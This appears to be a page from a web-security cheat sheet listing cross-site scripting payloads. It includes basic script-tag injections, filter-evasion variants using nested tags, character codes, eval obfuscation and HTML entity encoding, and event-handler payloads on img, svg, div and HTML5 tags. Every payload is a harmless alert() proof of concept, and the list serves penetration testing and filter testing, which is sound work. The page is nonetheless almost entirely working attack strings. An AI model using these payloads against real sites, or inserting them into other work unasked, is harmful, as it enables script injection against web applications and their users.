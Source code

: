```javascript
// Basic payload
<script>alert('XSS')</script>
<scr<script>ipt>alert('XSS')</scr<script>ipt>
"><script>alert('XSS')</script>
"><script>alert(String.fromCharCode(88,83,83))</script>
<script>\u0061lert('22')</script>
<script>eval('\x61lert(\'33\')')</script>
<script>eval(8680439..toString(30))(983801..toString(36))</script> //parseInt("confirm",30) == 8680439 && 8680439..toString(30) == "confirm"
<object/data="jav&#x61;sc&#x72;ipt&#x3a;al&#x65;rt&#x28;23&#x29;">

// Img payload
<img src=x onerror=alert('XSS');>
<img src=x onerror=alert('XSS')//
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
<img src=x:alert(alt) onerror=eval(src) alt=xss>
"><img src=x onerror=alert('XSS');>
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>

// Svg payload
<svgonload=alert(1)>
<svg/onload=alert('XSS')>
<svg onload=alert(1)//
<svg/onload=alert(String.fromCharCode(88,83,83))>
<svg id=alert(1) onload=eval(id)>
"><svg/onload=alert(String.fromCharCode(88,83,83))>
"><svg/onload=alert(/XSS/)
<svg><script href=data:,alert(1) />(`Firefox` is the only browser which allows self closing script)
<svg><script>alert('33')
<svg><script>alert&lpar;'33'&rpar;

// Div payload
<div onpointerover="alert(45)">MOVE HERE</div>
<div onpointerdown="alert(45)">MOVE HERE</div>
<div onpointerenter="alert(45)">MOVE HERE</div>
<div onpointerleave="alert(45)">MOVE HERE</div>
<div onpointermove="alert(45)">MOVE HERE</div>
<div onpointerout="alert(45)">MOVE HERE</div>
<div onpointerup="alert(45)">MOVE HERE</div>
```

### XSS using HTML5 tags

```javascript
<body onload=alert(/XSS/.source)>
<input autofocus onfocus=alert(1)>
<select autofocus onfocus=alert(1)>
<textarea autofocus onfocus=alert(1)>
<keygen autofocus onfocus=alert(1)>
<video/poster/onerror=alert(1)>
<video><source onerror="javascript:alert(1)">
<video src=_ onloadstart="alert(1)">
<details/open/ontoggle="alert`1`">
<audio src onloadstart=alert(1)>
<marquee onstart=alert(1)>
<meter value=2 min=0 max=10 onmouseover=alert(1)>2 out of 10</meter>

<body ontouchstart=alert(1)> // Triggers when a finger touch the screen
<body ontouchend=alert(1)>   // Triggers when a finger is removed from touch screen
<body ontouchmove=alert(1)>  // When a finger is dragged across the screen.
```
